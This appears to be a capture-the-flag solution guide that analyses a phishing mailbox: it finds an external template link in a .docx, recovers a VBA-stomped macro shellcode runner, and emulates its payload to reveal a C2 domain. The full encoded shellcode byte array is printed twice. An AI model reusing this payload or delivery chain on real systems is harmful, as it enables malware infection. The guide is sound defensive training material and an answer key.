










# The Conversation

**Solution Guide**

## Overview

This challenge tasks analysts with identifying a malicious phishing email, extracting and reversing a staged macro-based malware payload, and identifying its command-and-control infrastructure.

## Question 1 - What is the Message-ID of the email that contained an attachment that compromised an employee?

1. Download the mbox file from `http://emails.pccc`



2. Inspect the contents of the mbox file

```bash
head mailbox.mbox -n 20
```

You will notice that each email has a "Authentication-Results" header that shows the results of the SPF and DMARC verification. If there are any emails that do not pass this verification, those would immediately appear suspicious. 

*Emails failing SPF/DMARC are not inherently malicious, but in phishing investigations they are high-value triage candidates—especially when paired with unexpected attachments.*



3. Search for emails that do not pass authentication

```bash
cat mailbox.mbox | grep "does not designate" -C 10 
```

Only one email does not pass the authentication. The Message-ID for this email can be found several lines below the "Authentication-Results" header. In this case, it is `cc57186a-fa88-42a3-9da6-6bba57a6b3a5@orthanc.com`



### Answer
Submit the Message-ID as the answer for question 1, in this case: `cc57186a-fa88-42a3-9da6-6bba57a6b3a5`

## Question 2 - What is the URL used to download the second-stage payload on the victim?

1. Write and execute a Python script to extract the attachments from all emails in the mbox file

All of the email attachments have been encoded to follow the mbox format. These attachments need to be extracted into their own files. 

```python
# Filename: extract.py
import mailbox
import os
from email import policy
from email.parser import BytesParser

parser = BytesParser(policy=policy.default)

mbox = mailbox.mbox("mailbox.mbox", factory=lambda f: parser.parse(f))
outdir = "attachments"
os.makedirs(outdir, exist_ok=True)

for i, msg in enumerate(mbox):
    for part in msg.walk():
        if part.get_content_disposition() == "attachment":
            filename = f"{msg["Message-ID"]}_{part.get_filename()}"
            path = os.path.join(outdir, filename)

            with open(path, "wb") as f:
                f.write(part.get_payload(decode=True))
```

After running our script, we can navigate to the new directory containing all attachments `cd attachments` and view our files: 



2. We have already identified the suspicious email in question 1.  Let's view the attachment associated with that `Message-ID` - unzip the .docx attachment from the suspicious email

Use the `Message-ID` to select the correct attachment



3. Search for external links references in the docx file. If this docx file is being used to download another stage, there should be external references within the docx for that download. 


    <details>
    <summary>Why search .docx relationship files?</summary>

    Modern .docx files are ZIP archives that use XML relationship (.rels) files to define external resources, such as linked templates or remote content. Malicious documents commonly abuse these relationships to fetch second-stage payloads when the document is opened. Searching relationship files for TargetMode="External" is a fast way to identify embedded download URLs without executing the document or relying on macro analysis alone.

    </details>


```bash
grep -R "TargetMode=\"External\"" ./
```

This will reveal the URL of the 2nd stage payload, `http://imforce.me`



### Answer
The URL found is the answer to question 2. `http://imforce.me`

## Question 3 - What is the domain of the C2 server for the downloaded malware?

1. Download additional tools to help with the analysis

```bash
sudo pip install oletools hexdump unicorn pcode2code
```

2. Download the second-stage payload from http://imforce.me



3. Analyze the template.docm with OLE Tools

```bash
olevba template.docm
```

You'll notice the VBA code is not visible - it has been "stomped." VBA stomping is a technique where attackers remove the human-readable VBA source code but leave the compiled p-code intact. This makes static analysis more difficult.



4. Extract the P-Code from template.docm

To recover the macro logic, extract the p-code from the document using a tool like `pcode2code`:

```bash
pcode2code template.docm
```

This produces a slightly mangled but readable VBA script. The script is a shellcode runner that:
- Uses `kernel32.dll` functions to allocate memory
- Decodes and executes embedded shellcode
- Auto-runs when the document opens
- Supports both 32-bit and 64-bit Office



5. Extract the shellcode

The VBA contains an encoded byte array representing the shellcode payload. Extract this data into a Python script to look at the raw shellcode:

```python
import re

Sqihovdqc = [218,212,217,116,36,244,90,184,32,207,197,210,51,201,177,161,49,66,24,3,66,24,131,194,36,45,48,46,108,50,95,63,132,248,160,192,84,64,240,129,4,16,186,48,118,241,114,184,36,154,202,53,154,66,154,31,82,248,78,128,47,207,167,136,36,93,104,65,53,21,194,27,1,104,19,55,173,235,239,74,225, \
203,78,138,48,6,16,13,3,251,127,95,203,119,45,64,64,197,238,200,87,26,79,152,49,27,40,2,182,25,198,183,186,29,216,183,177,158,80,183,197,158,40,61,5,234,207,117,132,195,84,13,198,195,4,154,142,27,236,157,222,255,184,208,239,54,12,20,198,136,6,222,80,66,24,201,40,98,218,180,105, \
77,215,154,40,79,41,218,74,58,88,87,137,137,190,96,200,40,110,5,10,18,212,109,234,135,157,112,58,161,92,248,182,102,27,117,134,106,234,136,214,210,103,142,94,149,47,199,95,198,145,143,1,191,75,113,229,126,53,48,79,201,70,94,79,136,26,96,111,82,218,199,53,43,87,229,32,224,152,245,77, \
170,46,59,106,6,230,133,251,192,150,144,109,118,19,99,48,46,147,234,83,135,228,47,223,111,205,168,32,90,66,228,54,52,101,10,198,250,10,112,175,104,185,229,0,68,111,214,126,142,56,127,16,170,169,8,159,18,120,163,127,98,180,101,79,191,148,46,198,209,226,228,35,14,115,51,103,117,163,73,241, \
179,146,158,206,237,228,201,16,181,97,105,59,86,69,95,139,153,169,175,218,233,248,239,90,99,137,138,4,28,21,122,249,209,214,170,201,21,64,224,115,91,67,198,206,82,106,149,131,221,214,32,117,167,129,85,121,87,206,170,172,191,198,84,78,64,190,57,40,110,56,187,206,110,226,115,167,174,91,67,119, \
160,67,75,119,140,74,130,36,93,199,23,153,40,173,79,148,52,23,111,166,74,152,143,115,162,180,111,123,51,234,37,55,69,129,206,169,208,28,112,122,103,145,67,188,29,123,212,235,165,232,123,100,65,166,247,204,247,94,178,164,62,209,4,119,108,212,207,40,44,69,152,134,176,193,145,231,226,139,224,191, \
73,29,42,108,26,229,172,144,178,145,173,148,194,153,253,199,145,208,58,37,254,182,234,146,254,236,187,109,198,101,54,50,148,35,14,69,235,153,191,156,65,19,9,77,9,26,78,179,128,154,72,72,36,119,237,110,175,103,166,169,145,16,37,53,18,104,240,113,226,95,228,121,2,160,228,134,215,232,27,183, \
172,234,8,139,165,190,206,19,54,18,150,121,118,206,97,244,167,47,147,22,1,119,148,22,129,119,21,95,27,47,177,12,190,208,185,178,64,46,108,250,211,131,220,178,90,196,171,203,172,67,165,17,7,147,117,165,184,27,118,236,49,226,63,84,83,131,73,74,84,171,73,138,170,126,1,9,144,161,23,205, \
109,16,113,70,138,28,127,155,16,92,10,201,67,158,173,135,115,121,7,144,182,137,34,188,97,149,152]

data = bytes(Sqihovdqc)
for m in re.finditer(rb"[ -~]{4,}", data):
    print(m.group().decode("ascii", errors="ignore"))
```

6. Decode the shellcode

Create a Python script to write the shellcode to a binary file:

```python
# Shellcode from clear.vba
shellcode = bytes([
218,212,217,116,36,244,90,184,32,207,197,210,51,201,177,161,49,66,24,3,66,24,131,194,36,45,48,46,108,50,95,63,132,248,160,192,84,64,240,129,4,16,186,48,118,241,114,184,36,154,202,53,154,66,154,31,82,248,78,128,47,207,167,136,36,93,104,65,53,21,194,27,1,104,19,55,173,235,239,74,225,
203,78,138,48,6,16,13,3,251,127,95,203,119,45,64,64,197,238,200,87,26,79,152,49,27,40,2,182,25,198,183,186,29,216,183,177,158,80,183,197,158,40,61,5,234,207,117,132,195,84,13,198,195,4,154,142,27,236,157,222,255,184,208,239,54,12,20,198,136,6,222,80,66,24,201,40,98,218,180,105,
77,215,154,40,79,41,218,74,58,88,87,137,137,190,96,200,40,110,5,10,18,212,109,234,135,157,112,58,161,92,248,182,102,27,117,134,106,234,136,214,210,103,142,94,149,47,199,95,198,145,143,1,191,75,113,229,126,53,48,79,201,70,94,79,136,26,96,111,82,218,199,53,43,87,229,32,224,152,245,77,
170,46,59,106,6,230,133,251,192,150,144,109,118,19,99,48,46,147,234,83,135,228,47,223,111,205,168,32,90,66,228,54,52,101,10,198,250,10,112,175,104,185,229,0,68,111,214,126,142,56,127,16,170,169,8,159,18,120,163,127,98,180,101,79,191,148,46,198,209,226,228,35,14,115,51,103,117,163,73,241,
179,146,158,206,237,228,201,16,181,97,105,59,86,69,95,139,153,169,175,218,233,248,239,90,99,137,138,4,28,21,122,249,209,214,170,201,21,64,224,115,91,67,198,206,82,106,149,131,221,214,32,117,167,129,85,121,87,206,170,172,191,198,84,78,64,190,57,40,110,56,187,206,110,226,115,167,174,91,67,119,
160,67,75,119,140,74,130,36,93,199,23,153,40,173,79,148,52,23,111,166,74,152,143,115,162,180,111,123,51,234,37,55,69,129,206,169,208,28,112,122,103,145,67,188,29,123,212,235,165,232,123,100,65,166,247,204,247,94,178,164,62,209,4,119,108,212,207,40,44,69,152,134,176,193,145,231,226,139,224,191,
73,29,42,108,26,229,172,144,178,145,173,148,194,153,253,199,145,208,58,37,254,182,234,146,254,236,187,109,198,101,54,50,148,35,14,69,235,153,191,156,65,19,9,77,9,26,78,179,128,154,72,72,36,119,237,110,175,103,166,169,145,16,37,53,18,104,240,113,226,95,228,121,2,160,228,134,215,232,27,183,
172,234,8,139,165,190,206,19,54,18,150,121,118,206,97,244,167,47,147,22,1,119,148,22,129,119,21,95,27,47,177,12,190,208,185,178,64,46,108,250,211,131,220,178,90,196,171,203,172,67,165,17,7,147,117,165,184,27,118,236,49,226,63,84,83,131,73,74,84,171,73,138,170,126,1,9,144,161,23,205,
109,16,113,70,138,28,127,155,16,92,10,201,67,158,173,135,115,121,7,144,182,137,34,188,97,149,152
])

with open('/tmp/shellcode_correct.bin', 'wb') as f:
    f.write(shellcode)

print(f"Wrote {len(shellcode)} bytes")
```

7. Analyze the shellcode

The shellcode is position-independent code (PIC) that self-decodes at runtime. To analyze it, write a Python script to use the Unicorn CPU emulator to emulate its execution.

<details>
<summary>Why emulate the shellcode?</summary>

After extraction, the shellcode does not immediately contain readable indicators because it is self-decoding at runtime. Rather than attempting full static disassembly, emulation allows the decoder stub to execute in a controlled environment so the decoded payload is revealed in memory. Once decoding completes, analysts can safely search memory for network indicators—such as C2 domains—without executing the malware on a live system.

</details>

After the shellcode self-decodes, search for readable strings in memory. There should only be one result, which is: `imf.xyz`

```python
from unicorn import *
from unicorn.x86_const import *

shellcode = open('/tmp/shellcode_correct.bin', 'rb').read()

# emulator setup
mu = Uc(UC_ARCH_X86, UC_MODE_32)

# memmap
BASE = 0x10000
STACK = 0x100000
mu.mem_map(BASE, 0x10000)
mu.mem_map(STACK - 0x10000, 0x20000)

# write shellcode
mu.mem_write(BASE, shellcode)

# Set registers
mu.reg_write(UC_X86_REG_ESP, STACK)
mu.reg_write(UC_X86_REG_EBP, STACK)

# Run for limited instructions to let decoder stub run
try:
    mu.emu_start(BASE, BASE + len(shellcode), timeout=5000000, count=5000)
except:
    pass

# Read decoded memory and search for strings
decoded = mu.mem_read(BASE, 0x1000)
print("Decoded memory:")
print(decoded)

# Search for domain
import re
matches = re.findall(rb'[a-zA-Z0-9\-\.]+\.[a-z]{2,4}', decoded)
print(f"\nPossible domains: {matches}")
```



### Answer
The identified c2 domain is the answer to this question.  In this case, `imf.xyz`.